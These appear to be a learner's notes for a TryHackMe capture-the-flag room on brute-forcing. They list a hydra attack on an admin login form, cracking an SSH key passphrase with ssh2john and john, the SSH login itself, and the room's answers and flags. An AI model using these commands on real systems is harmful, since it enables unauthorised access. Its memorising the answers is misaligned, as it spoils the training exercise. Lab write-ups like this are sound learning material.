 Find a form to get a shell on SSH.

Answer the questions below

| Question                                      | Answer       | SS                                   |
| --------------------------------------------- | ------------ | ------------------------------------ |
| What is the user:password of the admin panel? | admin:xavier | ![[Pasted image 20240316192814.png]] |
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.104.231 http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:F=Username or password invalid"
```
![[Pasted image 20240316192408.png]]


| Question                                                                     | Answer     | SS                                   |
| ---------------------------------------------------------------------------- | ---------- | ------------------------------------ |
| Crack the RSA key you found.  <br>What is John's RSA Private Key passphrase? | rockinroll | ![[Pasted image 20240316194852.png]] |
```
ssh2john RSA\ private\ key.txt > rsa
```

```
john rsa --wordlist=/usr/share/wordlists/rockyou.txt
```



| Question | Answer                           | SS                                   |
| -------- | -------------------------------- | ------------------------------------ |
| user.txt | THM{a_password_is_not_a_barrier} | ![[Pasted image 20240316200352.png]] |
```
ssh -i bruteit john@10.10.104.231
```



| Question | Answer                   | SS                                   |
| -------- | ------------------------ | ------------------------------------ |
| Web flag | THM{brut3_f0rce_is_e4sy} | ![[Pasted image 20240316202244.png]] |
